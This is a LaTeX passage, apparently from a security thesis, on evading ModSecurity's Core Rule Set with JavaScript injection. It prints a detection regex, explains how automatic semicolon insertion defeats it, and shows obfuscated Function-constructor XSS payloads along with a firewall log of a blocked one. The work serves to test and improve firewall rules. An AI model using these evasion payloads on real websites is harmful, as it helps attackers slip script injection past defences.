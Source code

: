 The regex used in this rule:

\begin{lstlisting}[style=basicStyle]
(?:\((?:.+\)(?:[\"'][\-0-9A-Z_a-z]+[\"'])?\(.+|[^\)]*string[^\)]*\)[\s\x0b\"'\-\.0-9A-\[\]_a-\{\}]+\([^\)]*)|(?:\[[0-9]+\]|\{[0-9]+\}|\$[^\(\),\.\/;\x5c]+|[\"'][\-0-9A-Z\x5c_a-z]+[\"'])\(.+)\);
\end{lstlisting}

requires a semicolon to finish the statement. In JavaScript, cases exist, where this semicolon is not neccessary. One such case would be the existance of a semicolon finished statement in the code just before where the payload is injected and a newline followed by another function call or variable assignment in the code after where the payload is injected. A case where the semicolon would be neccessary to achieve code execution is the following:

\begin{lstlisting}[style=basicStyle, language=Python]
<statements before>

[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')()

[].constructor.constructor('alert("exception")')()

<statements after>
\end{lstlisting}

JavaScript is able to automatically insert some semicolons to create valid syntax from statements where the semicolons have been omitted. JavaScript's automatic semicolon insertion rules are stated under \cite{js/autosemi}.


\subsubsection{Function constructor + String concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation was blocked by the ModSecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function('var s = "secret";prompt("something", s)')()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

